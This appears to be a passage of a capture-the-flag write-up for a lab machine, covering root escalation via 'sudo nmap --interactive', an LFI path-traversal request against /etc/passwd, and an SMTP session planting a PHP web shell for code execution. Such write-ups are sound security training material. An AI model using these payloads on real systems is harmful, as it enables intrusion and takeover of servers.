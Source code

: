 ```
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

As user `asterisk`, we can execute several commands with sudo privileges! From my experience, I immediately recognized the nmap command. It can be exploited to obtain root privileges by spawning a shell in interactive mode. If you are not familiar with those commands and want to know which one can be epxloited to escalate your privileges, you can use https://gtfobins.github.io/.

```
sh-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

### Local File Inclusion to Remote Code Execution
When I read some other writeups, I was fascinated by the fact that there exist several ways to pwn the machine. Another way I stumbled upon exploited LFI. As I am a big fan of LFIs I also had to try this one.


So again we go back to our LFI vulnerability:
```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

From the ennumeration part, we know that Port 25 (SMTP) is open. Let's it to send a mail to the user `asterisk`, which we leaked from the /etc/passwd file.

```
└──╼ $ telnet 10.129.1.226 25
Trying 10.129.1.226...
Connected to 10.129.1.226.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
EHLO babbadeckl
250-beep.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY asterisk@localhost             <- verify if this user really exists
252 2.0.0 asterisk@localhost
mail from: babbadeckl@pwn.com
250 2.1.0 Ok
rcpt to: asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: RCE
<?php echo system($_REQUEST['babbadeckl']); ?>   <- RCE code

.
250 2.0.0 Ok: queued as 86A1ED92FF
```